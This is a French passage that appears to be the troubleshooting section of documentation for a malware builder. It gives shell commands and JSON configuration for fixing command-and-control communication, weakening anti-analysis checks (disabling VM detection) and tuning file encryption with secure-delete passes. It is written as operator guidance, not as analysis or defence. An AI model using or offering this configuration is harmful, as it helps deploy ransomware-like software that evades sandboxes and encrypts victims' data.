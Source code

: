 ## 8. Troubleshooting Configuration

### 8.1. Erreurs Communes

#### Problème : Build échoue
```bash
# Solution 1 : Vérifier dépendances
python3 master_builder.py --validate

# Solution 2 : Nettoyer et rebuild
rm -rf dist/ && python3 master_builder.py --build
```

#### Problème : Communication C&C échoue
```json
// Vérifier configuration DNS
{
  "dns_servers": ["8.8.8.8", "1.1.1.1"],
  "timeout": 30,                    // Augmenter timeout
  "max_retries": 10                 // Plus de tentatives
}
```

#### Problème : Anti-analyse trop strict
```json
{
  "execution": {
    "minimum_ram_gb": 1,            // Réduire exigences
    "minimum_cpu_cores": 1,         // Accepter mono-core
    "check_vm": false               // Désactiver détection VM
  }
}
```

### 8.2. Optimisation Performance

#### Pour Tests Rapides
```json
{
  "encryption": {
    "threads": 1,
    "chunk_size": 65536,            // 64KB
    "secure_delete_passes": 1
  },
  "communication": {
    "poll_interval": 10,            // 10 secondes
    "chunk_size": 50
  }
}
```

#### Pour Tests Approfondis
```json
{
  "encryption": {
    "threads": 8,
    "chunk_size": 1048576,          // 1MB
    "secure_delete_passes": 7
  },
  "communication": {
    "poll_interval": 300,           // 5 minutes
    "chunk_size": 30
  }
}
```